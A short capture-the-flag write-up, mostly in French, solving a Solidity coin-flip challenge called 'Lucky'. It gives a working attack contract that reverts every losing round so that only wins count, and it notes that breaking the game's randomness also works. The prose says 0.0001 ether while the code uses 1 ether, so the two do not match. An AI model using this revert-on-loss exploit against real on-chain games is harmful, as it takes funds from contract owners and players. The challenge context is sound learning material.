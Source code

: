 # Lucky

## Objectif
L'objectif est de gagner 10 fois consécutivement.

## Détails
Chaque fois que nous jouons, nous avons une chance sur 2 de gagner. Heureusement, que l'on perde ou gagne, le smart contract "lucky" nous envoie une transaction. Il suffit de révoquer (revert) la transaction qui ne nous convient pas.

## Attaque

Ainsi, en fonction de la valeur de la transaction (dans notre cas : 0,0001 ether), nous pouvons révoquer la transaction et annuler cette défaite. Par conséquent, il suffit d'appeler autant de fois qu'il faut pour accumuler 10 victoires consécutives.

Pour résoudre ce défi, il suffit d'écrire ce fameux smart contract : 

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

interface Game{
    function play(uint256 guess) external payable;
}

contract attack {

    Game game;

    constructor(address _game) payable{
        game = Game(_game);
    }

    function play() payable public{
        game.play{value :1 ether}(1);
    }

    fallback() payable external{
        if (msg.value != 1 ether){
            revert();
        }
    }
}
```

## Other way to solve

You can also solve this challenge by breaking the random function.

MK.
